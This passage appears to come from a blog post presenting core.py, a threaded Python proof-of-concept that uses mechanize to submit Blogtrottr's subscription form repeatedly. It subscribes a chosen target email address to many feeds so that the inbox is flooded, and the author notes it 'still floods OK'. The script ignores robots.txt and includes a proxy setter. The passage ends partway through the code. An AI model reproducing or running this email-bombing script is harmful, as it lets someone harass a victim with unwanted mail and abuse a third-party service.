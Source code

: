 Now, it’s time for the **core.py** script which submits Blogtrotr form requests (install mechanize as a dependency). Because this is just a Proof of Concept, I’ve hard coded a lot of stuff there, but it still floods OK.

```python
#!/usr/bin/python
 
import sys
 
DEBUG_LEVEL = "INFO"
 
import threading, mechanize
 
class coreThread(threading.Thread):
 
    def __init__(self, target, feedsList):
        threading.Thread.__init__(self)
        self.browser = mechanize.Browser()
        self.target = target
        self.feedsList = feedsList
 
    def run(self):
        self.sendMessages()
 
    def sendMessages(self):
        self.browser = createBrowser([])
        self.browser, htmlCode = browseWebsite(self.browser, "https://blogtrottr.com/")
        formIdentifier = ("id", "subscribe-form")
        for feed in self.feedsList:
            inputData = [("btr_url", str(feed.split("\n")[0])), ("btr_email", str(self.target))]
            submitForm(self.browser, formIdentifier, inputData)
 
def createBrowser(httpHeaders):
    # httpHeaders - is a list of tuples [(), ()]
    global DEBUG_LEVEL
    # Check if mechanize is installed
    try:
        import mechanize
    except:
        print "You need to install mechanize module for Python"
        #sys.exit()
 
    # Initiate the Browser object
    browser = mechanize.Browser()
    #browser.set_all_readonly(False)
    browser.set_handle_robots(False)
    browser.set_handle_refresh(False)
    if len(httpHeaders) &amp;gt; 0:
        browser.addheaders = httpHeaders
    else:
        if DEBUG_LEVEL == "INFO":
            print "No headers passed"
        else:
            pass
    return browser
 
def setProxy(browser, proxyAddress, proxyPort):
    # Set proxy server, if any
    browser.set_proxies({"http": proxyAddress + ":" + proxyPort})
    return browser
 
def browseWebsite(browser, urlAddress):
    # Browse to specified URL address and get html code of the page
    response = browser.open(urlAddress)
```